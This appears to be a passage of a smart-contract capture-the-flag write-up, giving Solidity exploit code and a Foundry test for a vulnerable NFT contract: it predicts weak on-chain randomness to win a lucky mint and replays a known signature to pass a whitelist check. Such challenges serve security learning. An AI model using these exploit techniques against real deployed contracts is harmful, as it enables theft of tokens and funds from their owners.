 Here's the code that I used for the test:

```solidity
contract Exploiter {
    constructor(VNFT level) {
        // randomNumber requested by the smart contract to be able to mint an NFT via `imFeelingLucky`
        uint256 randomNumber = uint256(
            keccak256(abi.encodePacked(blockhash(block.number - 1), block.timestamp, level.totalSupply()))
        ) % 100;

        // That's it, now we just need to call the contract with the same number it was expecting to see
        level.imFeelingLucky(msg.sender, 1, randomNumber);
    }
}
```

```solidity
function testCompleteLevel() public {
    address player = users[0];
    vm.startPrank(player);

    // assert that we do not own any VNFT
    assertEq(level.balanceOf(player), 0);

    ////////////////////////////////////////////
    // Exploiting whitelistMint function
    ////////////////////////////////////////////

    bytes32 originalHash = bytes32(0xd54b100c13f0d0e7860323e08f5eeb1eac1eeeae8bf637506280f00acd457f54);
    bytes
        memory originalSignature = hex"f80b662a501d9843c0459883582f6bb8015785da6e589643c2e53691e7fd060c24f14ad798bfb8882e5109e2756b8443963af0848951cffbd1a0ba54a2034a951c";

    level.whitelistMint(player, 1, originalHash, originalSignature);
    assertEq(level.balanceOf(player), 1);

    ////////////////////////////////////////////
    // Exploiting imFeelingLucky function
    ////////////////////////////////////////////

    // Create a new Exploiter contract and run the exploit inside their `constructor`
    new Exploiter(level);

    // Assert we have
    assertEq(level.balanceOf(player), 2);

    vm.stopPrank();
}
```
